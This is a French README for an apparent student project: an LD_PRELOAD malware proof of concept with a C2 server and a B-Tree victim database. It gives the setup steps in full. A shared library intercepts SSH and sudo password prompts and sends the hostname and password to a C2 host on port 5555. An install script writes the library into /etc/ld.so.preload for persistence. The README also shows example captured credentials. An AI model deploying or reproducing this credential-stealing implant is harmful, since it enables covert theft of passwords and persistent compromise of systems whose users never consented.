 ## Auteur
- Angelov Onur et Slimani Anis — ESGI 3SIJ
# README - Malware LD_PRELOAD avec Serveur C2 et Base de Données en C (B-Tree)

Ce projet est un POC complet d’un malware basé sur `LD_PRELOAD`, capable d’intercepter les identifiants SSH d’un utilisateur, de les envoyer à un serveur distant C2, et de les stocker de manière persistante dans une base de données implémentée en C à l’aide d’un B-Tree.

Pour commencer : ``git clone https://github.com/Runo76/CC1-DATABASE-ESGI``
---
```
## 📁 Structure du projet

CC1-DATABASE-ESGI/
├── server/                    # Serveur C2 (écoute, enregistre les victimes)
│   ├── server.c
│   ├── register_victim.c
│   ├── Makefile
│   └── ...
├── BTreeDB/                   # Base de données des victimes (B-Tree)
│   ├── author.md
│   ├── btree.c/.h/.o
│   ├── table.c/.h/.o
│   ├── repl.c/.h/.o
│   ├── persistence.c/.h/.o
│   ├── main.c/.o
│   ├── database.db           # Fichier de base de données persistante
│   ├── id_counter.txt        # Fichier de compteur ID auto-incrémenté
│   ├── db.txt, db/, tests/   # Données et tests
│   ├── Makefile, README.md
│   └── BTreeProject/
├── LD_PRELOAD/malware/       # Malware LD_PRELOAD (client espion)
│   ├── malware.c
│   ├── send_to_c2.c
│   ├── malware.so            # Généré après compilation
│   ├── Makefile
│   └── install_ldso_preload.sh  # Script pour activer automatiquement LD_PRELOAD
└── README.md
```

---

## 💻 VM 1 – Serveur C2 (192.168.1.20)

### 🛠️ Prérequis

- OpenSSH installé :

  sudo apt install openssh-server
🔧 Compilation du serveur + base

cd ~/server/CC1-DATABASE-ESGI/server
make clean
make
🚀 Lancer le serveur C2

./server
Le serveur écoute sur le port 5555
Il reçoit :

register <hostname> <password> → stocké dans la base BTree

log <hostname> <cmd> → affiché dans le terminal

## 💻 VM 2 – Malware (192.168.1.15)
🛠️ Prérequis
OpenSSH installé :

sudo apt install openssh-server
⚠️ Configuration du malware
Dans send_to_c2.c, modifier l’IP du serveur (ligne #define C2_IP "...") :


#define C2_IP "192.168.1.20"
#define C2_PORT 5555
Vous pouvez aussi modifier le port C2 si nécessaire.

🔧 Compilation

cd ~/mal/CC1-DATABASE-ESGI/LD_PRELOAD/malware
make
🐚 Injection automatique via LD_PRELOAD

chmod +x add_to_ldso.sh
sudo ./add_to_ldso.sh
Cela ajoute le chemin absolu de malware.so dans /etc/ld.so.preload


| Fonction                         | Description                                                                                                                                               |
| -------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 🔑 Exfiltration de mot de passe  | Intercepte les entrées `password:` dans un terminal                                                                                                       |
| 📦 Envoi vers serveur C2         | Format : `register <hostname> <mdp>`                                                                                                                      |
| 🚫 Blocage de fichiers sensibles: Empêche `open()` sur sudo /etc/passwd`, `/etc/shadow`, etc. Exemple : `sudo cat /etc/passwd` → Permission denied▪️ ` cat /etc/passwd` → aussi bloqué       |
| 🧠 Injection automatique via SSH | Vous pouvez tester avec :<br>▪️ `LD_PRELOAD=./malware.so ssh name@192.168.1.xx`                                                                           |
| 💾 Persistance dans BTree        | Chaque victime est stockée dans `database.db` avec ID unique                                                                                              |
| 🔁 Injection persistante         | Automatique via `/etc/ld.so.preload`                                                                                   

🔍 Vérification de la base
Sur la VM C2 :

cd ../BTreeDB
./db
Dans la CLI :


select
Vous verrez (le register el le mdp de la connexion ssh):
ex
(1, anisdebian, 1478)
(2, onur, 1234)

🧪 Exemple de test
Lancer le serveur C2 sur VM1 :
./server


Sur la VM malware, compiler et injecter :


make |
chmod +x add_to_ldso.sh|
sudo ./add_to_ldso.sh |
Se connecter à une machine distante via SSH (ou exécuter sudo ls)
exemple : |
LD_PRELOAD=./malware.so ssh nom@192.168.1.xx (ip)


→ password: sera intercepté sur le serverc2
Vérifier la base côté serveur :

cd ../BTreeDB
./db
> select (pour parcourir l'arbre et voir ceux qui est insert)
autre commande expliqué dans la db


❌ Pour désactiver le malware

sudo rm /etc/ld.so.preload
📎 Remarques
Le fichier database.db est mis à jour automatiquement.
